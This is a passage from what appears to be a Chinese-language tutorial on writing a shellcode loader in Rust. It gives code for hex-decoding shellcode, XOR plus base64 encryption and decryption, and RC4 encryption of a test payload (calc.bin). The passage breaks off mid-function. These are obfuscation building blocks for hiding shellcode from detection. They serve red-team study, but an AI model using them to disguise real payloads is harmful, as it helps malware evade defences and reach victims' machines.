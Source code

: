 ```bash
fn hex_dec(shellcode:String) -> Vec<u8> {
    hex::decode(shellcode).expect("Error")
}
```

### 异或加密

通过迭代器将 shellcode 与 key 逐个字符进行异或，然后进行 base64 编码返回一段字符串。

要进行解密，需要先进行 base64 解码，然后将异或加密后的 shellcode 再次与 key 进行逐个字符进行异或，即可还原 shellcode。

```bash
fn xor_encrypt(shellcode: &[u8], key: &[u8]) -> String {
    let mut encrypted = Vec::new();
    for (i, &b) in shellcode.iter().enumerate() {
        encrypted.push(b ^ key[i % key.len()]);
    }
    base64::encode(&encrypted)
}

fn xor_decrypt(encrypted: &[u8], key: &[u8]) -> Vec<u8> {
    let encrypted = base64::decode(encrypted).expect("msg");
    let mut decrypted = Vec::new();
    for (i, &b) in encrypted.iter().enumerate() {
        decrypted.push(b ^ key[i % key.len()]);
    }
    decrypted
}
```

### RC4 加密

Rust 要实现 RC4 加密与加密需要引入依赖，在`Cargo.toml`文件中添加下面的依赖。

```bash
[dependencies]
rust-crypto="0.2.36"
base64="0.13.0"
rustc-serialize = "0.3"
```

下面是实现 RC4 加解密的代码，在加密的函数中最终返回的是 Base64 编码后的字符串，而解密函数最终返回的是 Vec 数组，这是为了方便在 shellcode loader 中读取加密后的 shellcode 以及加载解密后的 shellcode。

```bash
use crypto::rc4::Rc4;
use crypto::symmetriccipher::SynchronousStreamCipher;
use std::iter::repeat;

fn main() {
    let buffer = include_bytes!("..\\calc.bin").as_slice();
    let key = "pRNtb343heAlnPFw5QiPHKxz3Z1dzLsqhiUyBNtTiI21DjUsZ0";

    let b64_string = enc(buffer, key);
    let shellcode = dec(b64_string.as_str(), key);

    println!("== RC4 ==");
    println!("Key: {}", key);
    println!("\nEncrypted (Base-64): {}", b64_string);
    println!("\nDecrypted: {:?}", shellcode);
}

fn enc(shellcode: &[u8], key: &str) -> String {
    let mut rc4 = Rc4::new(key.as_bytes());

    let mut result: Vec<u8> = repeat(0).take(shellcode.len()).collect();
    rc4.process(shellcode, &mut result);
```